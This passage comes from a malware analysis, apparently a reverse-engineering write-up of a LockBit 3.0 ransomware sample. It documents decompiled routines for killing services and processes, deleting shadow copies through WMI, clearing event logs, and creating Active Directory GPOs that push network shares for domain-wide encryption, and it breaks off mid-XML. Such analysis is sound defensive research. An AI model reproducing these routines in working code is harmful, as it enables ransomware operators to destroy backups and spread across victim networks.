			IP is supposed to be contained at `DAT_00425150`, which was retrieved at `prepare_payload_and_config_data_func()`, and it's empty in this LockBit 3.0 sample, so in our case it will not exfiltrate data to a C&C server. This technique ([`T1567`](https://attack.mitre.org/versions/v12/techniques/T1567/)) is documented in the MITRE ATT&CK Framework.
	- FUN_00409c64:
		There the malware deobfuscates multiple data, starting with a parameter argument for the malware `"-psex"`:
		<div align="center"></div>
		There the malware deobfuscates another argument, which is `"-pass"`:
		<div align="center"></div>
		Then it deobfuscates a string to create a pipe `\\.\pipe\%s`:
		<div align="center"></div>
		This function creates the pipe to transfer data.
	- FUN_00407ca4:
		There, the malware stops and deletes blacklisted services; first, it starts by retrieving all the running services with [`EnumServicesStatusExW`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-enumservicesstatusexw). 
		<div align="center"></div>
		Then it checks with each one with `FUN_00407dfc()`, if any service name matches with the list of services at `DAT_0042514c`, which was retrieved at `prepare_payload_and_config_data_func()`, to stop these services:
			1. `vss`  
			2. `sql`  
			3. `svc$`  
			4. `memtas`  
			5. `mepocs`  
			6. `msexchange`  
			7. `sophos`  
			8. `veeam`  
			9. `backup`  
			10. `GxVss`  
			11. `GxBlr`  
			12. `GxFWD`  
			13. `GxCVD`  
			14. `GxCIMgr`
		 And for each service running `FUN_0040dc60()` will terminate the process by using [`NtTerminateProcess`](https://ntdoc.m417z.com/ntterminateprocess), and after that the service will be deleted with [`DeleteService`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-deleteservice). This technique ([`T1489`](https://attack.mitre.org/versions/v12/techniques/T1489/)) is documented in the MITRE ATT&CK Framework.
	- Thread FUN_00407e58:
		There the malware stops the execution of blacklisted processes, starting first by retrieving all the running processes with [`NtQuerySystemInformation`](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation) with `SYSTEM_INFORMATION_CLASS SystemProcessInformation`, retrieving a huge process structure for each running process.
		<div align="center"></div>
		Then it checks with each one with `FUN_00407f50()`, if any process name matches with the list of processes at `DAT_00425148` which was retrieved at `prepare_payload_and_config_data_func()`, to stop these processes:
			1. `sql`  
			2. `oracle`  
			3. `ocsssd`  
			4. `dbsnmp`  
			5. `synctime`  
			6. `agntsvc`  
			7. `isqlplussvc`  
			8. `xfssvcccon`  
			9. `mydesktopservice`  
			10. `ocautoupds`  
			11. `encssvc`  
			12. `firefox`  
			13. `tbirdconfig`  
			14. `mydesktopqos`  
			15. `ocomm`  
			16. `dbeng50`  
			17. `sqbcoreservice`  
			18. `excel`  
			19. `infopath`  
			20. `msaccess`  
			21. `mspub`  
			22. `onenote`  
			23. `outlook`  
			24. `powerpnt`  
			25. `steam`  
			26. `thebat`  
			27. `thunderbird`  
			28. `visio`  
			29. `winword`  
			30. `wordpad`  
			31. `notepad`  
			32. `calc`  
			33. `wuauclt`  
			34. `onedrive`
		And for each running matching process, it will be terminated with [`NtTerminateProcess`](https://ntdoc.m417z.com/ntterminateprocess). This technique ([`T1489`](https://attack.mitre.org/versions/v12/techniques/T1489/)) is documented in the MITRE ATT&CK Framework.
	- Thread FUN_0040782a:
		At this function is deobfuscated multiple strings with `decode_n_blocks_w_mask_func()`:
		<div align="center"></div>
		LockBit 3.0 deletes [`volume shadow copies`](https://learn.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) from disk using WMI. It performs a [CoCreateInstance](https://learn.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-cocreateinstance) call to obtain [`WbemAdministrativeLocator`](https://strontic.github.io/xcyclopedia/library/clsid_CB8555CC-9128-11D1-AD9B-00C04FD8FDFF.html) and [`WBEM Call Context`](https://strontic.github.io/xcyclopedia/library/clsid_674B6698-EE92-11D0-AD71-00C04FD8FDFF.html), connects to the [`ROOT\CIMV2`](https://learn.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-and-wmi#constructing-the-uri-prefix-for-wmi-classes) namespace via `ConnectServer`, based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows/win32/wmisdk/example-creating-a-wmi-application), and executes a WQL query (`ExecQuery`) like `SELECT * FROM Win32_ShadowCopy`. For each result, it extracts the `ID` property and deletes the shadow copy via `DeleteInstance`. These values were extracted with [`MagNumDB`](https://www.magnumdb.com). Also, these objects are documented at [`WbemCli.h`](https://github.com/tpn/winsdk-10/blob/master/Include/10.0.10240.0/um/WbemCli.h) where we can see the IID and the offsets to see which functions they are accessing. This technique removes local backups, hindering system recovery. This technique ([`T1490`](https://attack.mitre.org/versions/v12/techniques/T1490/)) is documented in the MITRE ATT&CK Framework.
		<div align="center"></div>
		<div align="center"></div>
		
```c
void FUN_0040782a(void) {
  ... // CLSID_WbemAdministrativeLocator: {CB8555CC-9128-11D1-AD9B-00C04FD8FDFF}
  decode_n_blocks_w_mask_func(local_14c + 0x3f,4);
  ... // IID_IWbemLocator:   {DC12A687-737F-11CF-884D-00AA004B2E24}
  decode_n_blocks_w_mask_func(local_14c + 0x3b,4);
  ... // CLSID_WbemContext: {674B6698-EE92-11AD0-AD71-00C04FD8FDFF}
  decode_n_blocks_w_mask_func(local_14c + 0x37,4);
  ... // IID_IWbemContext: {44ACA674-E8FC-11D0-A07C-00C04FB68820}
  decode_n_blocks_w_mask_func(local_14c + 0x33,4);
  ... // __ProviderArchitecture
  decode_n_blocks_w_mask_func(local_14c,0xc);
  ... // ROOT\CIMV2
  decode_n_blocks_w_mask_func(local_14c + 0x2d,6);
  ... // ID
  decode_n_blocks_w_mask_func(local_14c + 0x29,2);
  ... // SELECT * FROM Win32_ShadowCopy
  decode_n_blocks_w_mask_func(local_14c + 0xc,0x10);
  ... // WQL
  decode_n_blocks_w_mask_func(local_14c + 0x2b,2);
  ... // Win32_ShadowCopy.ID='%s'
  decode_n_blocks_w_mask_func(local_14c + 0x1c,0xd);
  // --- Initialize COM interfaces for WMI access ---
    // CLSID_WbemAdministrativeLocator
  if ((*CoCreateInstance)(local_14c + 0x3f, 0, 1, local_14c + 0x3b, &ppvLoc)==0
    // CLSID_WbemContext
    && (*CoCreateInstance)(local_14c + 0x37, 0, 1, local_14c + 0x33, &ppvServ)==0) {
    // --- If running under WOW64, set __ProviderArchitecture = 0x40 (x64) ---
    is_process_wow64(0xffffffff, &local_8);
    if (local_8 != 0) {
      (*VariantInit)(local_14c + 0x43);
      local_14c[0x43] = 3;  // VT_I4
      local_38 = 0x40;      // x64 value for __ProviderArchitecture
      // ppvServ + 0x20 = pServ->lpVtbl->SetValue
      if ((**(code **)(*ppvServ + 0x20))(ppvServ,local_14c,0,local_14c+0x43) != 0)
        goto LAB_00407c55;
      (*VariantClear)(local_14c + 0x43);
    }
    // --- Connect to WMI namespace ROOT\CIMV2 ---
    // ppvLoc+0xc = lpVtbl->ConnectServer
    if ((**(code**)(*ppvLoc+0xc))(ppvLoc,local_14c+0x2d,0,0,0,0,0,ppvServ,&pWbemServices)==0 &&
        (*CoSetProxyByBlanket)(pWbemServices, 10, 0, 0, 3, 3, 0, 0) == 0 &&
        // pWbemServices + 0x50 = pWbemServices->lpVtbl->ExecQuery
        // (SELECT * FROM Win32_ShadowCopy)
        (**(code **)(*pWbemServices + 0x50))(pWbemServices, local_14c + 0x2b, local_14c + 0xc, 0x30, 0, &pEnumerator) == 0) {
      // --- Iterate over Win32_ShadowCopy results ---
      while (true) {
        pObj = NULL; local_20 = 0;
        // pEnumerator+0x10 = pEnumerator->lpVtbl->Next
        if ((**(code**)(*pEnumerator+0x10))(pEnumerator,0xffffffff,1,&pObj,&local_20)!=0)
        break;
        (*VariantInit)(local_30);
        // pObj+0x10 = pObj->lpVtbl->Get
        if ((**(code**)(*pObj+0x10))(pObj,local_14c+0x29,0,local_30,0,0)==0){
          // Format string "Win32_ShadowCopy.ID='%s'"
          (*_swprintf)(local_1cc, local_14c + 0x1c, local_28);
          // pWbemServices + 0x40 = pWbemServices->lpVtbl->DeleteInstance
          (**(code **)(*pWbemServices + 0x40))(pWbemServices, local_1cc, 0, 0, 0); 
          (*VariantClear)(local_30);
        }
        (**(code **)(*pObj + 8))(pObj);  // Release result object
      }
    }
  }
  ...
}
```
.
	- Thread LAB_00409628:
		This function opens `FUN_004091c8()`, which deletes logs.
		- FUN_004091c8:
			The malware recursively enumerates subkeys under `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\EventLog\` and `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels`, opening each associated log via [`OpenEventLogW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventlogw) and clearing it using [`ClearEventLogW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventlogw). This technique removes local backups, hindering system recovery. This technique ([`T1485`](https://attack.mitre.org/versions/v12/techniques/T1485/))  is documented in the MITRE ATT&CK Framework.
		<div align="center"></div>
    
```c
void FUN_004091c8(void)
{
  ... // SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels
  decode_n_blocks_w_mask_func(local_17c + 0x16,0x1d);
  ... // SYSTEM\CurrentControlSet\Services\EventLog
  decode_n_blocks_w_mask_func(local_17c,0x16);
  ... // O:BAG:SYD:(A;;0x1;;;SYD)(A;;0x5;;;BA)(A;;0x1;;;LA)
  decode_n_blocks_w_mask_func(local_17c + 0x33,0x19);
  ... // Enabled
  decode_n_blocks_w_mask_func(local_17c + 0x53,4);
  ... // ChannelAccess
  decode_n_blocks_w_mask_func(local_17c + 0x4c,7);
  // Clear logs from "HKLM\SYSTEM\CurrentControlSet\Services\EventLog"
  iVar1=(*RegCreateKeyExW)(0x80000002,local_17c+0x16,0,0,0,0x2011f,0,&local_8,0);
  if (iVar1 == 0) {
    local_17c[0x58] = 0; // Gets list of subkeys
    while(iVar1=(*RegEnumKeyW)(local_8,local_17c[0x58],local_384,0x104),iVar1 != 0x103) {
      local_c = 0; // Gets subkey
      iVar1 = (*RegCreateKeyExW)(local_8,local_384,0,0,0,0x2011f,0,&local_c,0);
      if (iVar1 == 0) {
        local_17c[0x57] = 0; // Enabled = 0 -> Disables the logger
        iVar1 = (*RegSetValueExW)(local_c,local_17c + 0x53,0,4,local_17c + 0x57,4);
        if (((iVar1 == 0) && // ChannelAccess = O:BAG:SYD:... -> Grants access to admins
            (iVar1 = (*RegSetValueExW)(local_c,local_17c + 0x4c,0,1,local_17c + 0x33,100), // Open event log
            iVar1 == 0)) && (local_10 = (*OpenEventLogW)(0,local_384), local_10 != 0)) {
          (*ClearEventLogW)(local_10,0); // Clears te log
          (*CloseEventLogW)(local_10);
        }
        if (local_c != 0) {
          (*ZwClose)(local_c);
        }
      }
      local_17c[0x58] = local_17c[0x58] + 1;
    }
  }
  // Repeat for "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels"
  ...
```
.
	- FUN_00416fa0:
		- FUN_00413954:
			At this function it takes DAT_00424f70, which had the RSA key, and with [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170) takes the first 8 bytes of the RSA key and stores its representation as `WCHAR` to connect to the AD domain by generating the LDAP display name for the Group Policy Object (GPO).
			<div align="center"></div>
		- FUN_004139c4:
			The function deobfuscates multiple data, then queries Active Directory via [`ADSI`](https://learn.microsoft.com/en-us/windows/win32/adsi/active-directory-service-interfaces-adsi). It connects to [`LDAP://rootDSE`](https://learn.microsoft.com/en-us/windows/win32/adschema/rootdse), retrieves the domain's `defaultNamingContext`, enumerates Group Policy Objects (GPOs) under `CN=Policies,CN=System,<domain>`, and searches for one with a matching `displayName`. If found and `param_2` is non-zero, it retrieves its `distinguishedName`, and it checks if the custom GPO was created. We can see the offset at [`Iads.h`](https://github.com/tpn/winsdk-10/blob/master/Include/10.0.10240.0/um/Iads.h).
			<div align="center"></div>
      
```c
undefined4 FUN_004139c4(undefined4 param_1,int param_2)
{
  iVar1 = (*CoInitialize)(0);
    if (iVar1 == 0) {
      ... // IID_IADs: {FD8256D0-FD15-11CE-ABC4-02608C9E7553} 
      decode_n_blocks_w_mask_func(local_130 + 4,4);
      ... // IID_IADsContainer: {001677D0-FD16-11CE-ABC4-02608C9E7553}
      decode_n_blocks_w_mask_func(local_130,4);
      ... // LDAP://rootDSE
      decode_n_blocks_w_mask_func(local_130 + 0x32,8);
      iVar1 = (*ADSOpenObject)(local_130 + 0x32,0,0,1,local_130 + 4,&local_c);
      if (iVar1 == 0) {
        ... // defaultNamingContext
        decode_n_blocks_w_mask_func(local_130 + 8,0xb);
        (*VariantInit)(local_28);
        // IADs::Get -> Obtain DN base of the domain with defaultNamingContext
        iVar1 = (**(code **)(*local_c + 0x3c))(local_c,local_130 + 8,local_28);
        if (iVar1 == 0) {
          ... // LDAP://CN=Policies,CN=System,%s
          decode_n_blocks_w_mask_func(local_130 + 0x13,0x10);
          // Path to GPOs, LDAP://CN=Policies,CN=System,<defaultNamingContext>
          (*_swprintf)(local_338,local_130 + 0x13,local_20);
          // Open GPOs
          iVar1 = (*ADSOpenObject)(local_338,0,0,1,local_130,&local_14);
          if ((iVar1 == 0) && // Create enumerator to check GPOs
          (iVar1 = (*ADSBuildEnumerator)(local_14,&local_10), iVar1 == 0)) {
            ... // displayName
            decode_n_blocks_w_mask_func(local_130 + 0x2c,6);
            (*VariantClear)(local_48);
            do {
              local_18 = 0;
              (*VariantClear)(local_28);
              (*VariantClear)(local_38); // Go to next GPO
              iVar1 = (*AdsEnumerateNext)(local_10,1,local_28,&local_18);
              // Checks if displayname of GPO matches param_1
              if (((iVar1 != 0) || (local_18 == 0)) || (iVar1 = (**(code **)(*local_20 + 0x3c))(local_20,local_130 + 0x2c,local_38), iVar1 != 0)) 
                goto LAB_00413d57;
              iVar1 = (*_wcsicmp)(param_1,local_30);
            } while (iVar1 != 0);
            if (param_2 != 0) {
              ... // distinguishedName
              decode_n_blocks_w_mask_func(local_130 + 0x23,9);
              iVar1 = (**(code **)(*local_20+0x3c)(local_20,extraout_ECX,local_48);
			  ...
            }
            ...
          }
        }
      }
    }
}
```
.
		- FUN_00416490:
			The function starts by getting the domain controller name with `get_domain_controller_name_func()`. Then it deobfuscates data that represents the IID and CLSID of [`IGroupPolicyObject`](https://strontic.github.io/xcyclopedia/library/clsid_EA502722-A23D-11D1-A7D3-0000F87571E3.html).
			<div align="center"></div>
      
```c
undefined4 FUN_00416490(short *param_1)

{
  int iVar1;
  uint local_238 [8];
  undefined local_218 [520];
  int local_10;
  int *local_c;
  undefined4 local_8;
  
  local_8 = 0;
  local_c = (int *)0x0;
  local_10 = 0;
  iVar1 = (*CoInitialize)(0);
  if (iVar1 == 0) {
    iVar1 = get_domain_controller_name_func(local_218);
    if (iVar1 != 0) {
      ... // IID_IGroupPolicyObject:  {EA502723-A23D-11d1-A7D3-0000F87571E3}
      decode_n_blocks_w_mask_func(local_238 + 4,4);
      ... // CLSID_GroupPolicyObject: {EA502722-A23D-11D1-A7D3-0000F87571E3} 
      decode_n_blocks_w_mask_func(local_238,4); 
      iVar1 = (*CoCreateInstance)(local_238,0,1,local_238 + 4,&local_c);
      if (((((iVar1 == 0) && (iVar1 = FUN_00416124(local_c,local_218,param_1,&local_10), iVar1 != 0)
            ) && (iVar1 = FUN_00415d28(local_10), iVar1 != 0)) &&
          ((iVar1 = FUN_00414c60(local_c), iVar1 != 0 && (iVar1 = FUN_00415a84(local_c), iVar1 != 0)
           ))) && ((iVar1 = FUN_004157b4(local_c), iVar1 != 0 &&
                   ((iVar1 = FUN_00414e50(local_c), iVar1 != 0 &&
                    (iVar1 = FUN_004150e0(local_c,param_1,local_218), iVar1 != 0)))))) {
        local_8 = 1;
      }
    }
    if (local_c != (int *)0x0) {
      (**(code **)(*local_c + 8))(local_c);
    }
    (*CoUninitialize)();
  }
  if (local_10 != 0) {
    rtl_freeheap_antidbg_func(local_10);
  }
  return local_8;
}
```
.
			- FUN_00416124:
				The function first deobfuscates the Active Directory path by formatting the string `LDAP://%s/DC=%s,DC=%s`. The string is used as the AD domain name when [`IGroupPolicyObject::New`](https://learn.microsoft.com/en-us/windows/win32/api/gpedit/nf-gpedit-igrouppolicyobject-new) is called to create the GPO, and then it calls [`IGroupPolicyObject::GetName`](https://learn.microsoft.com/en-us/windows/win32/api/gpedit/nf-gpedit-igrouppolicyobject-getname) to retrieve the GUID corresponding to the created GPO.
				Then it deobfuscates the Active Directory path and formats it `LDAP://DC=%s,DC=%s`, and also deobfuscates the GPO path and formats it `LDAP://CN=%s,CN=Policies,CN=System,DC=%s,DC=%s`, and finally the Active Directory path and the GPO path are used to call [`CreateGPOLink`](https://learn.microsoft.com/en-us/windows/win32/api/gpedit/nf-gpedit-creategpolink) to connect the GPO to the specified Active Directory domain.
				  <div align="center"></div>
          
```c
void FUN_00416124(int *param_1,undefined4 param_2,undefined4 param_3,int *param_4)
{
  ...
  iVar1 = FUN_004160a8(param_2,(int *)(local_d0 + 0x2f),(int *)(local_d0 + 0x2e));
  if (iVar1 != 0) {
    iVar1 = (*wcslen)(local_d0[0x2f]);
    iVar2 = (*wcslen)(local_d0[0x2e]);
    iVar3 = (*wcslen)(param_2);
    local_d0[0x2d] = allocate_data_processheap_antidbg((iVar1+iVar2+iVar3)*2+0x20);
    if (local_d0[0x2d] != 0) {
      ... // LDAP://%s/DC=%s,DC=%s
      decode_n_blocks_w_mask_func(local_d0 + 0x18,0xb);
      (*_swprintf)(local_d0[0x2d],local_d0+0x18,param_2,local_d0[0x2f],local_d0[0x2e]);
      // param_1+0xc = param_1->lpVtbl->IGroupPolicyObject->New
      iVar1 = (**(code **)(*param_1 + 0xc))(param_1,local_d0[0x2d],param_3,0);
      if (((iVar1 == 0) && (local_d0[0x30] = allocate_data_processheap_antidbg(0x4e), local_d0[0x30] != 0)) && 
         // param_1 + 0x24 = param_1->lpVtbl->IGroupPolicyObject->GetName
         (iVar1=(**(code**)(*param_1+0x24))(param_1,local_d0[0x30],0x4e),iVar1==0)) {
        iVar1 = (*wcslen)(local_d0[0x2f]);
        iVar2 = (*wcslen)(local_d0[0x2e]);
        local_d0[0x31] = allocate_data_processheap_antidbg((iVar1+iVar2)*2+0x1e);
        if (local_d0[0x31] != 0) {
          ... // LDAP://DC=%s,DC=%s
          decode_n_blocks_w_mask_func(local_d0 + 0x23,10);
          (*_swprintf)(local_d0[0x31],local_d0+0x23,local_d0[0x2f],local_d0[0x2e]);
          iVar1 = (*wcslen)(local_d0[0x30]);
          iVar2 = (*wcslen)(local_d0[0x2f]);
          iVar3 = (*wcslen)(local_d0[0x2e]);
          iVar1 = allocate_data_processheap_antidbg((iVar1+iVar2+iVar3)*2+0x52);
          if (iVar1 != 0) {
            ... // LDAP://CN=%s,CN=Policies,CN=System,DC=%s,DC=%s
            decode_n_blocks_w_mask_func(local_d0,0x18);
            (*_swprintf)(iVar1,local_d0,local_d0[0x30],local_d0[0x2f],local_d0[0x2e]);
            iVar2 = (*CreateGPOLink)(iVar1,local_d0[0x31],1);
            ...
          }
        }
      }
    }
  }
}
```
.
			- FUN_00415d28:
				  This function, in order to modify the GPO and inject custom policies, will need to update the object's client-side extensions (CSEs). To do it, it first has to set up the GPO's attributes **gPCMachineExtensionNames** and **gPCUserExtensionNames**.
				  First it deobfuscates the [`Active Directory Service Interfaces (IADs)`](https://learn.microsoft.com/en-us/windows/win32/adsi/active-directory-service-interfaces-adsi) IID `{FD8256D0-FD15-11CE-ABC4-02608C9E7553}` and gets the object with [`ADSGetObject`](https://learn.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-adsgetobject). 
				  Then it deobfuscates [`gPCMachineExtensionNames`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-gpcmachineextensionnames), which represents a GPO attribute, and with `decrypt_payload_xor_custom_func()` decrypts data at `DAT_00422d8d`, which contains extension pairs for the custom GPO modification, putting it at a `VARIANT` structure with [`VariantInit`](https://learn.microsoft.com/en-us/windows/win32/api/oleauto/nf-oleauto-variantinit):
					`[{00000000-0000-0000-0000-000000000000}{BFCBBEB0-9DF4-4C0C-A728-434EA66A0373}{CC5746A9-9B74-4BE5-AE2E-64379C86E0E4}][{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{6A4C88C6-C502-4F74-8F60-2CB23EDC24E2}{BFCBBEB0-9DF4-4C0C-A728-434EA66A0373}][{91FBB303-0CD5-4055-BF42-E512A681B325}{CC5746A9-9B74-4BE5-AE2E-64379C86E0E4}]`
				Then with [`IADs::Put`](https://learn.microsoft.com/en-us/windows/win32/api/iads/nf-iads-iads-put) sets the value of the GPO attribute [`gPCMachineExtensionNames`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-gpcmachineextensionnames) to the values of the created `VARIANT` structure.
				Later it does the same by deobfuscating [`gPCUserExtensionNames`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-gpcuserextensionnames), the other GPO attribute, and with `decrypt_payload_xor_custom_func()` decrypts the data at `DAT_00422b67` which is its respective extension pairs, putting it at a `VARIANT` structure with [`VariantInit`](https://learn.microsoft.com/en-us/windows/win32/api/oleauto/nf-oleauto-variantinit):
					`[{00000000-0000-0000-0000-000000000000}{3BAE7E51-E3F4-41D0-853D-9BB9FD47605F}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}][{7150F9BF-48AD-4DA4-A49C-29EF4A8369BA}{3BAE7E51-E3F4-41D0-853D-9BB9FD47605F}][{AADCED64-746C-4633-A97C-D61349046527}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}]`
				Then with [`IADs::Put`](https://learn.microsoft.com/en-us/windows/win32/api/iads/nf-iads-iads-put), set the value of the GPO attribute [`gPCUserExtensionNames`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-gpcuserextensionnames) to the values of the created `VARIANT` structure as before.
				Then it deobfuscates [`versionNumber`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gpol/70fd86b1-926a-4dcf-9ce7-6f9d2149c20d) which is another GPO attribute, and sets it to the deobfuscated string `2621892`, which will be to represent the version of the GPO with [`IADs::Put`](https://learn.microsoft.com/en-us/windows/win32/api/iads/nf-iads-iads-put).
```c
undefined4 FUN_00415d28(undefined4 param_1)
{
  ... // IID_IADs: {FD8256D0-FD15-11CE-ABC4-02608C9E7553}
  decode_n_blocks_w_mask_func(local_d0 + 0x23,4);
  iVar1 = (*ADSGetObject)(param_1,local_d0 + 0x23,&local_c);
  if (iVar1 == 0) {
    ... // gPCMachineExtensionNames
    decode_n_blocks_w_mask_func(local_d0,0xd);
    // List of extension pairs to set at gPCMachineExtensionNames
    local_24 = decrypt_payload_xor_custom_func(&DAT_00422d8d);
    if (local_24 != (byte *)0x0) {
      (*VariantInit)(&local_1c);
      local_1c = 8;
      local_14 = (*SysAllocString)(local_24);
      if (local_14 != 0) {
        local_d0[0x2a] = local_14;
        local_d0[0x29] = (*SysAllocString)(local_d0);
    // local_c + 0x40 = IADs::Put, set extension pairs to gPCMachineExtensionNames
        iVar1 = (**(code **)(*local_c + 0x40))                          (local_c,local_d0[0x29],local_1c,local_18,local_14,local_10);
        if (iVar1 == 0) {
          (*VariantClear)(&local_1c);
          ... // gPCUserExtensionNames
          decode_n_blocks_w_mask_func(local_d0 + 0xd,0xb);
          // List of extension pairs to set at gPCUserExtensionNames
          local_20 = decrypt_payload_xor_custom_func(&DAT_00422b67);
          if (local_20 != (byte *)0x0) {
            (*VariantInit)(&local_1c);
            local_1c = 8;
            local_14 = (*SysAllocString)(local_20);
            if (local_14 != 0) {
              local_d0[0x28] = local_14;
              local_d0[0x27] = (*SysAllocString)(local_d0 + 0xd);
    // local_c + 0x40 = IADs::Put, set extension pairs to gPCUserExtensionNames
              iVar1 = (**(code **)(*local_c + 0x40))             (local_c,local_d0[0x27],local_1c,local_18,local_14,local_10);
              if (iVar1 == 0) {
                (*VariantClear)(&local_1c);
                ... // versionNumber
                decode_n_blocks_w_mask_func(local_d0 + 0x18,7);
                ... // 2621892
                decode_n_blocks_w_mask_func(local_d0 + 0x1f,4);
                (*VariantInit)(&local_1c);
                local_1c = 8;
                local_14 = (*SysAllocString)(local_d0 + 0x1f);
                uVar2 = (*SysAllocString)(local_d0 + 0x18);
                // local_c + 0x40 = IADs::Put, set versionNumber
                iVar1 = (**(code **)(*local_c + 0x40))(local_c,uVar2,local_1c,local_18,local_14,local_10);
                if ((iVar1 == 0) && 
                (iVar1 = (**(code **)(*local_c + 0x38))(local_c), iVar1 == 0)) {
                  local_8 = 1;
                }
              }
            }
          }
        }
      }
    }
  }
```
.
			- FUN_00414c60:
				In this function it will locate the root GPO GUID directory that contains `GPT.INI`, where it will properly update the version, and with that will signal a [`gpudpate`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/gpupdate). 
				It first starts with [`IGroupPolicyObject::GetFileSysPath`](https://learn.microsoft.com/en-us/windows/win32/api/gpedit/nf-gpedit-igrouppolicyobject-getfilesyspath), which will retrieve the root GPO GUID directory. And later with [`IGroupPolicyObject::GetDisplayName`](https://learn.microsoft.com/en-us/windows/win32/api/gpedit/nf-gpedit-igrouppolicyobject-getdisplayname) it will retrieve the GPO's display name. Then it will deobfuscate the string `GPT.INI`, which is the file to be updated to trigger the [`gpudpate`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/gpupdate). Then with [`PathAppendW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathappendw) will append `GPT.INI` to the root GPO GUID directory to retrieve a handle to that file with [`CreateFileW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilew). Then it deobfuscates the version of the updated GPO `2621892` and the next string, which is a specific format for `GPT.INI`:
```
[General]
Version=%s        -> 2621892
displayName=%s    -> IGroupPolicyObject::GetDisplayName
```
.
				Finally, with [`WriteFile`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile) it will write the updated content into the GPO by updating the `GPT.INI` file that will signal the [`gpudpate`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/gpupdate).
```c
undefined4 FUN_00414c60(int *param_1) // param_1 = IGroupPolicyObject
{
  ...
  local_5c[0x10] = allocate_data_processheap_antidbg(0x800);
  if ((((local_5c[0x10] != 0) && 
       // param_1 + 0x38 = IGroupPolicyObject::GetFileSysPath
       (iVar1 = (**(code **)(*param_1 + 0x38))(param_1,0,local_5c[0x10],0x400), iVar1 == 0)) &&
      (local_18 = (short *)allocate_data_processheap_antidbg(0x22), local_18 != (short *)0x0)) &&
      // param_1 + 0x28 = IGroupPolicyObject::GetDisplayName
     (iVar1 = (**(code **)(*param_1 + 0x28))(param_1,local_18,0x11), iVar1 == 0)) {
    FUN_00401218(local_18,(undefined *)local_18);
    ... // GPT.INI
    decode_n_blocks_w_mask_func(local_5c + 0xc,4);
    (*PathAppendW)(local_5c[0x10],local_5c + 0xc); // root_GPO_dir/GPT.INI
    // Get handle to root_GPO_dir/GPT.INI
    local_c = (*CreateFileW)(local_5c[0x10],0x40000000,0,0,4,0x80,0);
    if ((local_c != -1) && (local_14 = allocate_data_processheap_antidbg(0x80), local_14 != 0)) {
      ... // 2621892
      decode_n_blocks_w_mask_func(local_5c + 10,2);
      ... //[General]\r\nVersion=%s\r\ndisplayName=%s\r\n
      decode_n_blocks_w_mask_func(local_5c,10);
      // Adds the version and the display name retrieved earlier
      uVar2 = (*sprintf)(local_14,local_5c,local_5c + 10,local_18);
      // Write the updated content at root_GPO_dir/GPT.INI to signal gpupdate
      iVar1 = (*WriteFile)(local_c,local_14,uVar2,local_10,0);
      ...
    }
  }
}
```
.
			- FUN_00415a84:
				At this function it sets group policy at `<GPO GUID>\MACHINE\Preferences\NetworkShares\NetworkShares.xml` and then decrypts and decompresses the data at `DAT_00422974`, which defines a network share for each drive on the network hosts, once the domain controller pushes it out, to make LockBit able to also encrypt all the hosts drives on the network.
				<div align="center"></div>
        
```xml
<?xml version="1.0" encoding="utf-8"?>
<NetworkShareSettings clsid="{520870D8-A6E7-47e8-A8D8-E6A4E76EAEC2}">
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_D" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_D" path="D:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_E" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_E" path="E:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_F" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_F" path="F:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_G" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_G" path="G:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_H" changed="%s" uid="%s">
